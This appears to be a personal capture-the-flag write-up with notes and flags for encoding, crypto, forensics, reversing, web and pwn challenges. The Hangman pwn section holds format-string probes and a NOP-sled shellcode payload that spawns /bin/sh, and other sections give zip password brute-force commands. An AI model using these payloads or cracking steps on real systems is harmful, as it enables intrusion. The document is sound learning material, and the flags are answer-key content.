WEJhK0Yu bUorRDVW NytFVjoq RjxHJThG
PEdJPkc5 QkkiR0Iu VkRBS1lR LUFURSc8
QlBEP3Mr REdeOTst LTFhPCo6 Z18kNFI+
REdeOktV QmxTR0FC bFJnIkZD bz4zRGc8
SUtGPEdP SUNqSTQ+ QjZuUURG PEdtREY8
R1s7SD5k U0ArRCM4 LENOM3Az RkRFIjhG
RiQubyUx M09PMihM WDMuNVk8 YUJLOHBP
QksmZDcr dHVrP0JQ OHRwQ0w3

----- base64
But is that the only base that CTFs will try and use to trick you?
:MXBa+F.mJ+D5V7+EV:*F<G%8F<GI>G9BI"GB.VDAKYQ-ATE'<BPD?s+DG^9;--1a<*:g_$4R>DG^:KUBlSGABlRg"FCo>3Dg<IKF<GOICjI4>B6nQDF<GmDF<G[;H>dS@+D#8,CN3p3FDE"8FF$.o%13OO2(LX3.5Y<aBK8pOBK&d7+tuk?BP8tpCL7

----- base85 
Okay you got that but now I wrote everything in QWERTY.
Wxz viqz iqhhtfl oy vt pxlz kgzqzt zit tfzokt eiqkqeztk ltz? 
5+8$)4]0h9Q;h7Q%"0Q%hh-Qk_

---- Keyboard Cipher - QWERTY
But what happens if we just rotate the entire character set? 
5+8$)4]0p9A;p7A%"0A%pp-Ar_

---- ROT47 (124)
SIVBGR{N0W_Y0U_C@N_C00K_2}

```


## What's the Diffie [Crypto]

### Task 

```bash
What's Diffie [Crypto]
150
Alice and Bob have been experimenting with a way to send flags back and forth securely. Can you intercept their messages?

nc 0.cloud.chals.io 32820
```


### My Solve
- Reach out the the server and keep listening `nc 0.cloud.chals.io 32820 -v`
- The connection keeps closing by itself, and I think I might be getting blocked or rate limited. I stopped getting responses. I think the server is only up for few seconds once every 3-5 minutes? got a response at 9:30pm


- Finally got response with 
  - telnet to keep a more constant connection. 
  - or `while true; do echo "47" | nc 165.227.210.30 -p 32820 -v; sleep 1; done` to keep it constant
```
telnet 0.cloud.chals.io 32820

Trying 165.227.210.30...
Connected to 0.cloud.chals.io.
Escape character is '^]'.
g =  12
p =  53
a =  8
b =  67

What is their shared secret?
Enter your input: 47

To find the flag you will need to perform a bitwise XOR operation between each byte of the encrypted message and the corresponding byte of the shared secret key.
7c 66 79 6d 68 7d 54 1b 70 49 43 1b 48 70 49 5d 1f 42 70 1b 43 1e 4c 1c 70 1b 41 4b 70 4d 1f 4d 52
Connection closed by foreign host.

47 is 0x2F : to do XOR operations on the whole set


First Byte:

Encrypted byte: 0x7c
Shared secret byte: 0x2f
XOR operation: 0x7c ^ 0x2f = 0x53
Convert 0x53 to character: S
Second Byte:

Encrypted byte: 0x66
Shared secret byte: 0x2f
XOR operation: 0x66 ^ 0x2f = 0x49
Convert 0x49 to character: I
Third Byte:

Encrypted byte: 0x79
Shared secret byte: 0x2f
XOR operation: 0x79 ^ 0x2f = 0x56
Convert 0x56 to character: V

etc...
```



  - `SIVBGR{4_fl4g_fr0m_4l1c3_4nd_b0b}`


## Super Duper Quick Maths [MISC]

### Task 
  ```
  Solve my math test and you'll get my flag!

  nc 0.cloud.chals.io 15072
  ```


- After nc into the server: 

  ```
  Received: 
      Solve my math test and you'll get my flag.
      But I was told you were really fast at math...
      I bet you can't solve 50 questions in a small timeframe...
      You got 3 seconds per problem.
      Now GO!

  Received: 30 * 4

  ```


- made a python program w/ help of GPT: quickMaths.py, it created a websocket to keep constant connection to the server (I don't think you really need to, could telnet or nc still) I checked the regex via https://regex101.com/ and ran it. the program only has `+ - * / //` type operations apparently
- and hit a road block pretty quick... with `//`. it's division removing the remainder. Silly JS in me didn't know what it was think it was a comment. Anyways... modified the python program regex and switch statement for the `//` operator and continued onward. And Bingo! Good to go. `SIVBGR{L00kM0m!_ICANDO_m4th}`


## You Have Mail [Forensics]

### Task
```
150
This challenge is composed of an email, more specifically a .eml file. The email introduces the theme for the forensics group, which is a whistleblower announcing that alien life exists on Earth, and the government knows about it.

https://ctfd.uscybergames.com/files/3679aeb619d8182d54e43d4d46b0b4fc/URGENT_Proof_of_UFO_Read_in_a_secure_location.eml
```

### My solve
- first open the .eml in notepad
- password for zip is: `Secure_Code:Order_66`
- Did you know CyberChef can extract zip from encodings? Yeah it's base64 then the unzip recipe with the password and bam!




## Container Chronicles [Misc] - TODO
```
150
Welcome, aspiring digital detectives, to the Container Chronicles challenge! Your mission, should you choose to accept it, is to delve into the depths of a seemingly ordinary image of a shipping container and uncover its hidden secrets.

Within the confines of this digital cargo hold lies a treasure trove of information waiting to be unearthed. Your task revolves around deciphering the manufacturing date of the shipping container concealed within the image. But beware, for the information you seek is not readily visible to the naked eye.

Utilizing your skills, you must meticulously examine every pixel, every byte, and every hidden layer within the image to extract the elusive manufacturing date. Employ various techniques, ranging from simple visual inspection to advanced data analysis, to uncover the truth lurking beneath the surface.

Remember, in the world of digital forensics, every detail matters. Stay vigilant, think outside the box, and be prepared to embark on a journey through the intricate labyrinth of data concealed within the confines of this innocuous image.

Are you ready to unravel the mysteries of the Container Chronicles? The fate of the cargo rests in your hands. Good luck, and may the digital winds guide you to victory!

https://ctfd.uscybergames.com/files/e51898ed21dacdb7d86c5960f05fb2dd/containers.png
```

- open the file, exiftool, nothing, tried strings and hexdump for magic numbers... nothing... 
- steghide extract -sf containers.png : prompts me with a password. No clues yet
- tried binwalk. looks like there something here
    
    ```bash
      binwalk containers.png                    

      DECIMAL       HEXADECIMAL     DESCRIPTION
      --------------------------------------------------------------------------------
      0             0x0             PNG image, 640 x 480, 8-bit/color RGBA, non-interlaced
      41            0x29            Zlib compressed data, compressed
      87900         0x1575C         MySQL ISAM index file Version 4

    ```

- threw it into cyberchef to extract because there's many sub zlib files inside zlib files, there's gotta be a recursive way to do it. I tried `binwalk -eM`


## The Email Where It Happens [Forensics]

### Task 
```
150
Howdy Truth Seekers! It seems that some malware that was strategically shared has begun to phone back home! We believe that this might have some very important information that could help lead us to finally getting to the bottom of this conspiracy regarding extraterrestrial life. Unfortunately the original developer of this tool was recently promoted to customer status and is no longer on good terms with the orginization. This means that we don't have any information on how to decode this traffic. Unfortunately all I have is a PCAP. Can you help us out here?
https://ctfd.uscybergames.com/files/b694602c1b73e94e94d82977a9acbed9/intercepted_communication.pcap
```


### My Solve

- opened the file in pcap in wireshark. noticed the packet contents were Base32 in the DNS queries
- decoded it to be... a message, but it's broken up. 

- Turns out I just have to follow the UDP stream and save the RAW. 
- then `strings rawStream` and decode it from base32
`SIVBGR{wh0_n33ds_32_b4s3s}` 


## Hangman's Shell [Pwn] TODO 


### Task
```
150 pts

nc 167.99.118.184 31339

https://ctfd.uscybergames.com/files/f36e870cf1aadba03df48fb619aecece/hangman
https://ctfd.uscybergames.com/files/2d69e3d47704f268e77df6813aa3c090/hangman.c
```


possible payloads
```
$ nc 167.99.118.184 31339
***IMPORTANT***
This program is still a shell, code is still in development
A full game of hangman is unavailable at this time

Welcome to hangman v0.1!
Select game mode (1, 2, or 3): 2
Please enter a word: %x %x %x %x %x %s


$ nc 167.99.118.184 31339
***IMPORTANT***
This program is still a shell, code is still in development
A full game of hangman is unavailable at this time

Welcome to hangman v0.1!
Select game mode (1, 2, or 3): 2
Please enter a word: %x %x %x %x %x %x %x %x %s

```


gdb ./hangman
break *0x000055555555530b
run 
continue
`\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H1\xd2H1\xc0PH\xbb/bin//shSH\x89\xe7PWH\x89\xe6\xb0;\x0f\x05AABBBBBBBB\x90\xdc\xff\xff\xff\x7f`

nexti
x/64x $rsp


^^


### My Solve


- run x64dbg on kali (long install) 
  ```
    git clone --recursive https://github.com/x64dbg/x64dbg.git

    cd x64dbg
    mkdir build
    cd build
    cmake ..
    make -j$(nproc)


    ```
- run with : `./release/x64dbg`


## Baby's First RSA [Crypto]

### Task
```
150 pts
I learned just learned about RSA and I am pretty sure that I implemented it right. It should be impossible to get my flag.
https://ctfd.uscybergames.com/files/8e7dee48948ae68674404581b3f105aa/out.txt
https://ctfd.uscybergames.com/files/2dea87a22b7e97f6a707ca86039ed255/main.py
```


### My Solve
```js
Here is your encrypted flag: 11320887921865707970417131707489304941213737344372772560296232001708703523599042195968223212365109776754039820465372975539526543057079098227551678593290445701559045011482149948708333749562432591623529530280037
Here is your public key:
n: 54635592099855565238567429816156089377033822002759547411082764468188951140701492941799814994802894116863539008046955775901349438057474600774506026999322449088884781059206427090047834145264757894872328436141156254487939678497662258017309980269148722038770041654103035346970408674206071958598445348607191506511
e: 3

```

- the hint is RSA cipher, I open the file and see C, N, E and immediately I know what to do. I do the RSA cipher in dCode tool and got the answer


## AE-no [Crypto]
### Task

```
150
The AES key can be public as long as the IV is secret right?
https://ctfd.uscybergames.com/files/18e4ae78b03346392b0e7b2393366a85/out.txt
https://ctfd.uscybergames.com/files/afea272a45b1c37a526798b7871bac9a/main.py
```
### My Solve
- Because we know the key, the possible flag message `Here is the flag for you: SIVBGR`, the AES Mode, pad, and encoded output. We can reverse engineer this. 
- with the help of GPT we can reverse engineer the IV via: `binascii.hexlify(guessed_iv)`
  - and `cipher = AES.new(key, AES.MODE_CBC, guessed_iv)` `decrypted_msg = cipher.decrypt(encoded_flag)`
  - and then unpad it: `decrypted_msg = unpad(decrypted_msg, AES.block_size)`

`SIVBGR{IV_B33n_H3r3_B3f0r3}` 


## All Hashed Out [Crypto]
```
150
https://ctfd.uscybergames.com/files/7f37a3abcfaecaf8fa30c777ee47f809/hint.txt
https://ctfd.uscybergames.com/files/38a2e2811e019f738aa6556cb9b73aee/short_n_sweet.zip
```


`fcrackzip -v -b -p 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789' -u short_n_sweet.zip `

```
fcrackzip -b -c aA1! -u -l 1-5 -v short_n_sweet.zip
found file 'build_different.7z', (size cp/uc    389/   377, flags 9, chk b06c)
found file 'built_different.txt', (size cp/uc    295/   498, flags 9, chk b145)
checking pw B956~                                   

PASSWORD FOUND!!!!: pw == B!p*3

```

hint from Discord: On my laptop, given the right hashcat settings, it took less than 5 minutes. 2011 Macbook pro running Parrot


hashcat -m 13600 ziphash.txt /path/to/wordlist.txt


## Prime Time [Crypto]

### Task
```
150pts 
https://ctfd.uscybergames.com/files/d44f694b587680234db32147fbe7ae78/challenge.txt
```

### My Solve

- we download the file and open it. I think you know what to do... 

```
Your encrypted flag: 67901295092999403377812474031753022640207373798290839976120254385637043193411358791915464230611073615341268787302565972547452757697916207952702288626173819641234095639259743277146365018265212857092237457393449677065307951821155969047439248276581778411840300731922481525641974287306159852931109413442675622573
Public Key:
n: 98813858186636016061828413291587334532178109240417756890955763078740391019450718373743031325554048662069578591495075978203742992839688516726192682096525494907367614705518833413598767554267177141399324414271413882430512533175133684772034149758259287505147508079731874384109521277000217376431320424120947279649
e: 65537
```


## xorcellent flag checker [Crypto]

### Task
```
200pts
Can you successfully figure out the flag to correctly pass this checker?
https://ctfd.uscybergames.com/files/95a31068b91eac01ae818515e70641ad/rev 
```

### My Solves

- I first checked for strings, hexdump, but there's nothing readable. 
- So I threw it into ghidra for analysis. The file has been stripped, so I found the main function (the one that calls all the others). 
- Found the possible flag check function, and renamed the functions for readability. 
  - checking the size of the input string is size `0x16` (22), if not then return 0 and exit.
  - The function maybeFlagCheck is loop through characters saved at `DAT_00104050` and `DAT_00104070` and XORs them then compares it to the character input. 
  - if all chars match then return 0. 
  - in this case we can just XOR the values and get the flag directly. 




`SIVBGR{x0r_B@s1cs_R3v}`


## Math Reversal [Reverse Engineering]

### Task
```
150pts
Do some calculations to find the correct flag
https://ctfd.uscybergames.com/files/278ac25b3b73811bb4dd255be528b81a/beginnerREChal_1

```

### My Solve


```js

//check flag function

00001159  int64_t checkflag(char* arg1)

00001166      int32_t var_1c = 0 //32bit int
000011ba      int64_t rax_9 //64 bit int
000011ba      while (true)
000011c8          if (sx.q(var_1c) u< strlen(arg1) && var_1c s<= 0x1e) // quadword 64bits 
000011a0              if (flagCheck[sx.q(var_1c)] + sx.d(arg1[sx.q(var_1c)]) != 0x80)
000011a2                  rax_9 = 0
000011a7                  break
000011a9              var_1c = var_1c + 1
000011a9              continue
000011da          if (strlen(arg1) != 0x1f)
000011e3              rax_9 = 0
000011da          else
000011dc              rax_9 = 1
000011d6          break
000011ed      return rax_9
```


- find the flag values in memory
    - notice that it's very padded with random characters 

```python
flag_check = [
    0x2d, 0x37, 0x00, 0x2a, 0x00, 0x00, 0x37, 0x00, 0x2a, 0x00, 
    0x00, 0x3e, 0x39, 0x00, 0x00, 0x25, 0x00, 0x00, 0x00, 0x00, 
    0x2e, 0x00, 0x00, 0x00, 0x05, 0x00, 0x00, 0x00, 0x0a, 0x00, 
    0x00, 0x00, 0x4d, 0x00, 0x00, 0x00, 0x0e, 0x00, 0x00, 0x00, 
    0x07, 0x00, 0x00, 0x00, 0x21, 0x00, 0x00, 0x00, 0x1c, 0x00, 
    0x00, 0x00, 0x4f, 0x00, 0x00, 0x00, 0x1a, 0x00, 0x00, 0x00, 
    0x1a, 0x00, 0x00, 0x00, 0x4f, 0x00, 0x00, 0x00, 0x1d, 0x00, 
    0x00, 0x00, 0x0b, 0x00, 0x00, 0x00, 0x14, 0x00, 0x00, 0x00, 
    0x0c, 0x00, 0x00, 0x00, 0x21, 0x00, 0x00, 0x00, 0x10, 0x00, 
    0x00, 0x00, 0x1f, 0x00, 0x00, 0x00, 0x0d, 0x00, 0x00, 0x00, 
    0x0d, 0x00, 0x00, 0x00, 0x09, 0x00, 0x00, 0x00, 0x50, 0x00, 
    0x00, 0x00, 0x0e, 0x00, 0x00, 0x00, 0x1c, 0x00, 0x00, 0x00, 
    0x03, 0x00, 0x00, 0x00
]


# Calculate the flag
flag = ''.join([chr(0x80 - val) for val in flag_check])

print("Flag:", flag)
```

- remove all teh un

`SI\x80V\x80\x80I\x80V\x80\x80BG\x80\x80[\x80\x80\x80\x80R\x80\x80\x80{\x80\x80\x80v\x80\x80\x803\x80\x80\x80r\x80\x80\x80y\x80\x80\x80_\x80\x80\x80d\x80\x80\x801\x80\x80\x80f\x80\x80\x80f\x80\x80\x801\x80\x80\x80c\x80\x80\x80u\x80\x80\x80l\x80\x80\x80t\x80\x80\x80_\x80\x80\x80p\x80\x80\x80a\x80\x80\x80s\x80\x80\x80s\x80\x80\x80w\x80\x80\x800\x80\x80\x80r\x80\x80\x80d\x80\x80\x80}`

`SI\V\\I\V\\BG\\[\\\\R\\\{\\\v\\\3\\\r\\\y\\\_\\\d\\\1\\\f\\\f\\\1\\\c\\\u\\\l\\\t\\\_\\\p\\\a\\\s\\\s\\\w\\\0\\\r\\\d\\\}`

`SIVIVBG[R{v3ry_d1ff1cult_passw0rd}` - notice how there's extra characters that aren't usually in the flag, remove them and you get..  `SIVBGR{v3ry_d1ff1cult_passw0rd}`


- the right side has all the hexes for the flag_check array that we need to run `x80 - x` through to get the final characters



## Touch-Grass [Web]

```
150
ARIA has ordered you to touch grass. Now you actually have to do it. Make up for all the times you havent touched it.

https://uscybercombine-touch-grass.chals.io/

```

- find the api endpoint that gives you touch? 
```
<h4 style="color:red">!Important!</h4>
        <p>The following is your grass touch counter. You need over 100000 to successfully make up for the times you havent touched grass.</p>
        <h4>Touch Count: 0</h4>
        <!-- Put clickable image of grass here. Need javascript to send POST when clicked-->
        <!-- New click API at /api/click, remove the admin version ASAP -->
      </div>
    </body>
```

